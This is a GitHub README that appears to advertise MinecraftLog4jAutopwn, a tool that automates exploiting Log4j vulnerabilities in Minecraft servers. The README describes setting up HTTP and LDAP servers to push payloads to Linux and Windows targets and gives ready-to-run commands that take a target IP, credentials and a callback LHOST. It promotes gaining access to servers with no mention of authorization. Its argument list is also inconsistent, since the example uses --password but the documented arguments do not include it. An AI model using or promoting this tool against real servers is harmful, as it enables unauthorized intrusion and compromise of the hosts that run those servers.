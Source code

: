 ![image](https://github.com/MAWK0235/MinecraftLog4jAutoPwn/assets/90433993/8e88e5d8-9000-4e56-8c51-4bfb4bb941c6)

# MinecraftLog4jAutopwn: Automate Minecraft Server Exploitation with Log4j

Are you tired of manually exploiting Minecraft servers using Log4j vulnerabilities? Say no more! Introducing MinecraftLog4jAutopwn – your ultimate tool for automating the exploitation process, saving you time and effort. With MinecraftLog4jAutopwn, effortlessly exploit Minecraft servers with Log4j vulnerabilities and gain access efficiently!

note: you might need to change the java compiler version if the server was compiled with a different version then my example

## Key Features

- **Automated Exploitation**: MinecraftLog4jAutopwn automates the entire process of exploiting Minecraft servers with Log4j vulnerabilities, streamlining your workflow and saving valuable time.

- **HTTP and LDAP Server Setup**: Automatically sets up HTTP and LDAP servers for delivering payloads to the target Minecraft server.

- **Payload Injection**: Inject payloads into Minecraft servers seamlessly, with support for both Linux and Windows targets.

- **Flexible Authentication**: Support for authenticating with Minecraft servers using usernames and passwords.

## Installation

```bash
git clone https://github.com/yourusername/MinecraftLog4jAutopwn.git

```

## Usage

```bash
python MinecraftLog4jAutopwn.py --target <target_IP> --username <minecraft_username> --LHOST <your_IP>
```

## Command Line Arguments

- `--target`: Specify the IP address of the target Minecraft server.
- `--username`: Provide the username for authenticating with the Minecraft server.
- `--LHOST`: Specify the IP address of your machine where payloads will be delivered.

## Examples

```bash
# Exploit a Minecraft server with Log4j vulnerability
python MinecraftLog4jAutopwn.py --target 192.168.1.1 --username user --password pass --LHOST 10.0.0.1
```

## Response Codes

- **Success**: Successfully exploited the Minecraft server.
- **Authentication Failed**: Failed to authenticate with the Minecraft server.
- **Connection Error**: Couldn't connect to the Minecraft server.

![MinecraftLog4jAutopwn](minecraft_log4j_autopwn_image.png)

*Note: Replace `yourusername` in the installation command with your GitHub username.*
